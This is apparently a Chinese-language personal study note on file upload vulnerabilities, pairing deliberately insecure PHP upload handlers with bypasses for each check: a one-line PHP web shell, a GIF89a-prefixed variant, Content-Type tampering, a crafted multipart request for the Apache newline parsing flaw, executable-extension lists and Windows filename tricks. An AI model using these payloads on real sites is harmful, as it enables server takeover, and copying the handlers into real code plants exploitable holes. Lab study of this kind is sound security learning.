










# file_upload_conclusion

**概述： 文件上传漏洞的自我总结**

## 文件上传校验姿势
* 客户端
	* 完全没有校验
	* 客户端javascript校验
* 服务器端
	* content-type字段验证


### 完全没有校验

index.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
	}

}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload">
	</form>
<?php
}
?>
```

shell1.php
```php
<?php system($_GET['cmd']);?>
```

直接上传文件即可getshell

`http://127.0.0.1/uploaded/shell1.php?cmd=pwd`





### 客户端javascript校验

```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
	}

}else{
?>
	<script type="text/javascript">
		function check()
		{
			var file = document.getElementsByTagName('input')[0].value;
			// console.log(file[0]);
			// document.write(file);
			var strTemp = file.split('.');
			var strCheck = strTemp[strTemp.length - 1];

			if (strCheck.toUpperCase() == 'JPG')
			{
				return true;
			}else{
				alert('file type is not right!');
				return false;
			}
		}
	</script>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload" onchange="return check()">
	<input type="submit" name="upload1" onclick="return check()">
	</form>
<?php
}
?>
```

这样只能上传jpg的文件


解决方式：

* 禁止浏览器执行javascript
* 用burp代理拦截上传`.jpg`文件，然后更改后缀名






### content-type字段验证

test1.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
		}else{
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

上传的时候只能上传jpg文件，如果直接上传非jpg文件：

`file type is wrong!`

解决方式：

* burp抓包

修改`Content-Type: application/x-php`字段为`Content-Type: image/jpeg`或者`Content-Type: image/png`或者`Content-Type: image/gif`或者`Content-Type: text/plain`




### 文件头验证

test1.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
		}elseif (exif_imagetype($_FILES['upload']['tmp_name'])) {
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
		}else{
			die('exif_imagetype thought file type is wrong!');
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

代码验证了`Content-Type`和`文件头`

shell1.jpg
```php
<?php system($_GET['cmd']);?>
```




shell1.jpg
```php
GIF89a<?php system($_GET['cmd']);?>
```



更改后缀名，更改文件内容包含`GIF89a`

不知为何只有`GIF89a`，因为我不知道其他的文本是多少

### 文件后缀名绕过

#### 黑名单绕过

配置服务器将.php，.php2，.php3，.php4，.php5，.php6，以及 .phtml 文件都当做 PHP 来运行

vim /etc/httpd/conf.d/php.conf

```
<FilesMatch \.php$>
    SetHandler application/x-httpd-php
</FilesMatch>
```
改为

```
<FilesMatch "\.ph(p[2-6]?|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

`httpd -k restart`

test2.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		$extention = pathinfo($upload_name, PATHINFO_EXTENSION);
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
		}elseif (exif_imagetype($_FILES['upload']['tmp_name'])) {
			if ($extention !== 'php' && $extention !== 'php3' && $extention !== 'php4' && $extention !== 'php5') {
			//blacklist
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
			}else{
				die('extension is no allowed!');
			}
		}else{
			die('exif_imagetype thought file type is wrong!');
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

代码验证了`Content-Type`、`文件头`和`黑名单(php、php3、php4、php5上传不了)`，所以这里可以上传(php2、php6、phtml)

shell1.jpg
```php
<?php system($_GET['cmd']);?>
```



更改了文件头和文件后缀



绕过方法：
* 找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
* 可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

能被解析的文件扩展名列表：
```
jsp jspx jspf
asp asa cer aspx
php php2 php3 php4 php5 php6 phtml pht
exe exee
```

### 配合文件包含漏洞

前提：校验规则只校验php文件内容是否是木马

绕过方式：
* 先上传一个php文件内容是`<?php include("123.txt");?>`
* 再上传一个123.txt文件内容是木马，用上面的文件包含即可

### 配合服务器解析漏洞

看了P牛在某论坛发的(CVE-2017-15715)，感觉用POST获取文件名称会不会太少了，不过这里复现看一下

test3.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_POST);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_POST['upload1'];
		$extention = pathinfo($upload_name, PATHINFO_EXTENSION);
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
		}elseif (exif_imagetype($_FILES['upload']['tmp_name'])) {
			if ($extention !== 'php' && $extention !== 'php3' && $extention !== 'php4' && $extention !== 'php5' && $extention !== 'php6' && $extention !== 'php2' && $extention !== 'phtml') {
			//blacklist
			move_uploaded_file($_FILES['upload']['tmp_name'], $upload_name);
			}else{
				die('extension is no allowed!');
			}
		}else{
			die('exif_imagetype thought file type is wrong!');
		}
	}
}else{
?>
	<form action="#" method="POST" enctype="multipart/form-data">
	<input type="file" name="upload">
	<input type="submit" name="upload1">
	</form>
<?php
}
?>
```

这里是为了演示用到了提交按钮的`name="upload1"`
```
------WebKitFormBoundaryfRL00yf6M7cY9hnN
Content-Disposition: form-data; name="upload"; filename="shell1.jpg"
Content-Type: image/jpeg

GIF89a<?php system($_GET['cmd']);?>

------WebKitFormBoundaryfRL00yf6M7cY9hnN
Content-Disposition: form-data; name="upload1"

1.php

------WebKitFormBoundaryfRL00yf6M7cY9hnN--
```

把Submit改成了1.php



访问`/uploaded/1.php%0A?cmd=pwd`



总之一般不会用POST记录名称，所以可能比较鸡肋。

### 配合操作系统文件命名规则

上传不符合Windows文件命名规则的文件名

```
test.asp,
test.asp(空格)
test.php:1.png
test.php::$DATA
test.php::$DATA......
```
会被windows系统自动去掉不符合规则符号后面的内容

后缀名大小写，可以尝试上传Php、pHp这样格式的后缀
